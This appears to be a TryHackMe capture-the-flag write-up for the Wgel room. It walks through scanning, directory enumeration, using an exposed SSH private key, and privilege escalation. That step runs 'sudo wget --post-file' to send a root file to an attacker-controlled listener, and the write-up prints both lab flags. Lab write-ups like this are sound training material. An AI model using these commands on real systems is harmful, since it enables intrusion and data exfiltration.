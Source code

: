 

# Wgel- TryHackMe Writeup

This is a writeup for Wgel from TryHackMe, which youi can find [here](https://tryhackme.com/room/wgelctf).

---


## Steps

### 1. Initial Reconnaissance
- Scanned the target:
  ```bash
  nmap -A -sV -p- [VICTIM IP]
  ```
- Example:
  ```bash
  nmap -A -sV -p- 10.10.5.177
  ```
- Flags explained:
  - `-A`: Aggressive scan (OS detection, version detection, scripts, traceroute).
  - `-sV`: Detect service versions.
  - `-p-`: Scan all 65,535 ports.
- Results:
  ```
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  ```
- Open ports: 2 (22 and 80).

### 2. Web Enumeration
- Ran `gobuster` with extensions:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.ssh
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.5.177 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.ssh
  ```
- Flags explained:
  - `-u`: Target URL.
  - `-w`: Wordlist path.
  - `-x .php,.txt,.ssh`: Check for these file extensions.
- Results (interrupted at 70.52%):
  ```
  /sitemap       (Status: 301)
  /server-status (Status: 403)
  ```
- Enumerated `/sitemap`:
  ```bash
  gobuster dir -u http://[VICTIM IP]/sitemap -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x .php,.txt,.ssh
  ```
- Results (interrupted at 38.84%):
  ```
  /images  (Status: 301)
  /.ssh    (Status: 301)
  /css     (Status: 301)
  /js      (Status: 301)
  /fonts   (Status: 301)
  ```

### 3. Discover SSH Key
- Visited `http://[VICTIM IP]/sitemap`—nothing interesting.
- Checked `http://[VICTIM IP]/sitemap/.ssh`—found an RSA private key.
- Saved it:
  ```bash
  nano id_rsa
  ```
- Pasted the key content (assumed from the site).

### 4. Crack RSA Key
- Converted to hash:
  ```bash
  /opt/john/ssh2john.py id_rsa > sigma.txt
  ```
- Found it had no passphrase—confirmed by `ssh2john.py` output or testing.

### 5. Gain SSH Access
- Struggled to find the username—tried `root`, `user`, etc., with no luck.
- After an hour, found `jessie` in the Apache site (likely a comment or page content).
- Logged in:
  ```bash
  ssh -i id_rsa jessie@[VICTIM IP]
  ```
- Example:
  ```bash
  ssh -i id_rsa jessie@10.10.5.177
  ```
- No passphrase required—successfully logged in as `jessie`.

### 6. Find User Flag
- Explored home directory:
  ```bash
  ls
  ```
- Output: `Desktop Documents Downloads ...`
- Checked subdirectories:
  ```bash
  ls Documents/
  ```
- Found `user_flag.txt`:
  ```bash
  cat Documents/user_flag.txt
  ```
- Content: `057c67131c3d5e42dd5cd3075b198ff6`

### 7. Privilege Escalation
- Checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Output:
  ```
  User jessie may run the following commands on CorpOne:
      (ALL : ALL) ALL
      (root) NOPASSWD: /usr/bin/wget
  ```
- Researched `wget` escalation: It can POST file contents to a remote server as root.
- Set up a listener on my attacker machine (`[ATTACKER IP]`, e.g., `10.10.87.244`):
  ```bash
  nc -lvnp 443
  ```
- Flags explained:
  - `-l`: Listen mode.
  - `-v`: Verbose output.
  - `-n`: No DNS resolution.
  - `-p 443`: Port to listen on.
- Ran `wget` as root to send `/root/root_flag.txt`:
  ```bash
  sudo wget --post-file=/root/root_flag.txt http://[ATTACKER IP]:443
  ```
- Example:
  ```bash
  sudo wget --post-file=/root/root_flag.txt http://10.10.87.244:443
  ```
- Listener output:
  ```
  POST / HTTP/1.1
  Content-Length: 33
  b1b968b37519ad1daa6408188649263d
  ```
- Root flag: `b1b968b37519ad1daa6408188649263d`

---

## Flags
- **User flag**: `057c67131c3d5e42dd5cd3075b198ff6`
- **Root flag**: `b1b968b37519ad1daa6408188649263d`

---

## Tools Used
- `nmap`: Port and service scanning.
- `gobuster`: Directory enumeration.
- `ssh2john.py`: RSA key passphrase checking.
- `ssh`: Remote access.
- `nc`: Netcat listener.
- `wget`: Privilege escalation.

---

## Lessons Learned
- **Web enumeration**: Hidden directories like `.ssh` can leak sensitive data.
- **SSH keys**: Unencrypted keys are a quick win—always check for passphrases.
- **`wget` exploit**: `sudo wget --post-file` can exfiltrate root files to an attacker-controlled server.
- **Persistence**: Finding the username took time—check all site content thoroughly.

---
